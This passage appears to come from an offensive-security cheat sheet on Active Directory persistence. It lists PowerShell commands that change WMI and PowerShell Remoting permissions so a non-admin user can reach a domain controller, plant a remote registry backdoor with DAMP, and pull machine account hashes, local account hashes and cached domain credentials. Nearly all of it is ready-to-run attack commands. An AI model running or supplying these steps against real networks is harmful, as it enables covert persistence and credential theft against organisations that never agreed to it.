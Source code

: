 - WMI(using `Set-RemoteWMI.ps1`)

  - modify ACLs to allow non-admin users to access the securable objects:

    on local machines:

    ```
    Set-RemoteWMI -UserName user1 -Verbose
    ```

     On remote machine for user1 without explicit credentials:

    ```
    Set-RemoteWMI -UserName user1 -ComputerName dc –namespace 'root\cimv2' -Verbose
    ```

    On remote machine with explicit credentials. Only root\cimv2 and nested namespaces: 

    ```
    Set-RemoteWMI -UserName user1 -ComputerName dc -Credential Administrator –namespace 'root\cimv2' -Verbose
    ```

    On remote machine remove permissions: 

    ```
    Set-RemoteWMI -UserName user1 -ComputerName dc –namespace 'root\cimv2' -Remove -Verbose
    ```

- PowerShell Remoting(using `Set-RemotePSRemoting.ps1`)

  - On local machine for user1: 

    ```
    Set-RemotePSRemoting -UserName user1 -Verbose
    ```

  - On remote machine for user1 without credentials:

    ```
    Set-RemotePSRemoting -UserName user1 -ComputerName dc -Verbose
    ```

  - On remote machine, remove the permissions: 

    ```
    Set-RemotePSRemoting -UserName user1 -ComputerName dc -Remove
    ```

- Remote Registry(Using [DAMP](https://github.com/HarmJ0y/DAMP))

  - ```
    Add-RemoteRegBackdoor -ComputerName dc -Trustee user1 -Verbose
    ```

  -  As user1, retrieve machine account hash: 

    ```
    Get-RemoteMachineAccountHash -ComputerName dc -Verbose
    ```

  - Retrieve local account hash: 

    ```
    Get-RemoteLocalAccountHash -ComputerName dc -Verbose
    ```

  - Retrieve domain cached credentials:

    ```
    Get-RemoteCachedCredential -ComputerName dc -Verbose
    ```

    

  